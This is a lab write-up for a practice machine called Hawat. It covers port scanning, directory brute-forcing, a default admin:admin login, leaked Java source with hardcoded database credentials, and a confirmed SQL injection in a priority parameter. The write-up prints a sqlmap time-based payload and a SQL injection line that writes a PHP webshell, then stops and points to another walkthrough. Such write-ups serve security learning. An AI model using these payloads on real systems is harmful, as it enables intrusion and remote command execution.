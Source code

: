 ```yaml
---
description: Broken for me.
---
```


# Hawat

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.147
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 12:15 +08
Warning: 192.168.157.147 giving up on port because retransmission cap hit (10).
Stats: 0:03:25 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 85.65% done; ETC: 12:19 (0:00:35 remaining)
Nmap scan report for 192.168.157.147
Host is up (0.17s latency).
Not shown: 65481 filtered tcp ports (no-response), 50 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
17445/tcp open  unknown
30455/tcp open  unknown
50080/tcp open  unknown
```

Did a detailed scan on the non HTTP ports.&#x20;

```
$ sudo nmap -p 17445,30455,50080 -sC -sV --min-rate 4000 192.168.157.147
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 12:19 +08
Nmap scan report for 192.168.157.147
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
17445/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <title>Issue Tracker</title>
|     <link href="/css/bootstrap.min.css" rel="stylesheet" />
|     </head>
|     <body>
|     <section>
|     <div class="container mt-4">
|     <span>
|     <div>
|     href="/login" class="btn btn-primary" style="float:right">Sign In</a> 
|     href="/register" class="btn btn-primary" style="float:right;margin-right:5px">Register</a>
|     </div>
|     </span>
|     <br><br>
|     <table class="table">
|     <thead>
|     <tr>
|     <th>ID</th>
|     <th>Message</th>
|     <th>P
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Length: 0
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
30455/tcp open  http    nginx 1.18.0
|_http-title: W3.CSS
|_http-server-header: nginx/1.18.0
50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
| http-methods:
```

### Web Enum --> Source Code

Port 17445 had some kind of ticket creator:

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

Default creds didn't work, so let's move on. Port 30445 just didn't load for me for some reason.&#x20;

Port 50080 shows a Pizza website:

<figure><img src="../../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

The website was rather static. I did a directory scan on all the ports. Port 50080 has a `/cloud` directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.157.147:50080 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.157.147:50080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/14 12:24:36 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 244] [--> http://192.168.157.147:50080/images/]
/4                    (Status: 301) [Size: 239] [--> http://192.168.157.147:50080/4/]
/cloud                (Status: 301) [Size: 243] [--> http://192.168.157.147:50080/cloud/]
```

When viewed, it shows a login page:

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. There, we see an `issuetracker.zip` file:

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

We can download this to our Kali machine and unzip it. This would reveal source code for a website.

```
$ ll
total 32
-rw-r--r-- 1 kali kali  1495 Feb  2  2021 HELP.md
-rwxr-xr-x 1 kali kali 10070 Feb  2  2021 mvnw
-rw-r--r-- 1 kali kali  6608 Feb  2  2021 mvnw.cmd
-rw-rw-r-- 1 kali kali  2248 Feb  5  2021 pom.xml
drwxr-xr-x 4 kali kali  4096 Feb  2  2021 src
```

### Source Code Analysis --> SQLI RCE

The source code was in Java and for the application running on port 17445. I looked thorugh the files and found this within `src/main/java/com/issue/tracker/issues/IssueController.java`:

```java
        @GetMapping("/issue/checkByPriority")
        public String checkByPriority(@RequestParam("priority") String priority, Model model) {
                // 
                // Custom code, need to integrate to the JPA
                //
            Properties connectionProps = new Properties();
            connectionProps.put("user", "issue_user");
            connectionProps.put("password", "ManagementInsideOld797");
        try {
                        conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
                    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
            System.out.println(query);
                    Statement stmt = conn.createStatement();
                    stmt.executeQuery(query);
```

This bit of code here gave us credentials, and also is vulnerable to SQL injection since the `priority` variable is not sanitsed before being passed in. I registed a user on the machine, and then proceeded to test the SQL Injection using `sqlmap`:

```
$ sqlmap -r req
---
Parameter: priority (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: priority=' AND (SELECT 3165 FROM (SELECT(SLEEP(5)))JlSD) AND 'aCou'='aCou
---
```

Normally, this should be rather easy to write a webshell using a payload like this:

```sql
' union select '<?php system($_REQUEST['cmd']); ?>' into outfile '/srv/http/cmd.php' -- -
```

However I don't know the document root, and `sqlmap` brute force doesn't seem to work. I took a hint and realised that port 30445 was supposed to host `phpinfo.php`, but it was unresponsive.&#x20;

I read the walkthrough and it shows that `/srv/http` is the document root taken from `phpinfo.php`, which would allow me to write a webshell to port 30445.

Here's a link to the supposed solution:

{% embed url="https://bing0o.github.io/posts/pg-hawat/" %}
